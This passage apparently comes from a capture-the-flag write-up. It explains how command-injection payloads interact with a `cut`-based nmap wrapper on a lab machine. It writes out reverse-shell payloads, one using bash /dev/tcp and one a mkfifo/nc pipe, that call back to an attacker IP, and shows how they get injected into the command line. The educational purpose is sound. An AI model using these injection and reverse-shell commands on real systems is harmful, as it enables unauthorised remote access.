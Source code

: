 #### Common Issues

A lot of people I saw getting stuck on this step didn’t take into account the `cut`, or read it incorrectly. If you tried to just pass a reverse shell in without some spacing, then it would lead to weird results. For example, if you tried to pass:

```

; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1' #

```

That would create:

```

nmap --top-ports 10 -oN recon/-c '/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1' #.nmap -c '/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1' # 2>&1 >/dev/null

```

That’s going to try to scan `'/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1'`, which is not going to resolve.

On the other hand, the Bash pipe shell will have some weird results:

```

; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f #

```

Passing that into `cut` gives a result:

```

oxdf@parrot$ echo '; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f #' | cut -d' ' -f3-
/tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f #

```

That will inject into the command to be:

```

nmap --top-ports 10 -oN recon//tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f #.nmap /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f # 2>&1 >/dev/null

```

That might actually work, just as a lucky result of what gets cut.

Another issues I saw was people forgetting to comment out the rest of the line. So take the payload I used without the comment:

```

oxdf@parrot$ echo "x x x 127.0.0.1; ping -c 1 10.10.14.15" | cut -d' ' -f3-
x 127.0.0.1; ping -c 1 10.10.14.15

```
